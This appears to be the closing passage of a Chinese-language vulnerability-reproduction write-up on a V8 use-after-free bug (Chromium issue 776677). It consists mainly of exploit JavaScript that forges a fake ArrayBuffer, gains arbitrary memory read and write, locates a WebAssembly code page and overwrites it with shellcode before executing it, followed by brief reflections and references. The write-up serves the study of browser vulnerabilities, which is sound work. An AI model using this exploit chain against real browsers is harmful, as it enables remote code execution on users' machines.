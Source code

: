 ```
faker[0] = p64f(0,0x0f0a000a);
faker[1] = p64f(0x000900c6,0x082003ff);
faker[2] = p64f(proto_addr,0);

var map_addr = faker_addr + 0x20;
print("map_addr=" + map_addr.toString(16));
//fake a ArrayBuffer
faker[4] = p64f(map_addr+0x1,0x3b90412d);
faker[5] = p64f(0x3b90412d,0x100);
faker[6] = p64f(wasm_shellcode_ptr_addr,0);
faker[7] = p64f(0x800,4);

var fake_arr_buf = fakeObject(faker_addr + 0x40);

var adv = new DataView(fake_arr_buf);
var wasm_shellcode_addr = adv.getUint32(0,true) + 0x3f;
print('wasm_shellcode_addr=' + wasm_shellcode_addr.toString(16));


faker[6] = p64f(wasm_shellcode_addr,wasm_shellcode_addr);

//%SystemBreak();
//替换wasm的shellcode
for (var i=0;i&lt;shellcode.length;i++) `{`
   adv.setUint32(i*4,shellcode[i],true);
`}`

//%SystemBreak();


func();
```



## 0x04 感想

本次漏洞复现，学习了很多新知识，对于V8 UAF方面的漏洞还是第一次接触，结合`Heap Spray`也是第一次，收获比较大。



## 0x05 参考

[asm.js：面向未来的开发](https://blog.csdn.net/code_for_free/article/details/53674210)<br>[asm.js 和 Emscripten 入门教程](http://www.ruanyifeng.com/blog/2017/09/asmjs_emscripten.html)<br>[Issue 776677: Security: V8:Use After Free Leads to Remote Code Execution](https://bugs.chromium.org/p/chromium/issues/detail?id=776677)
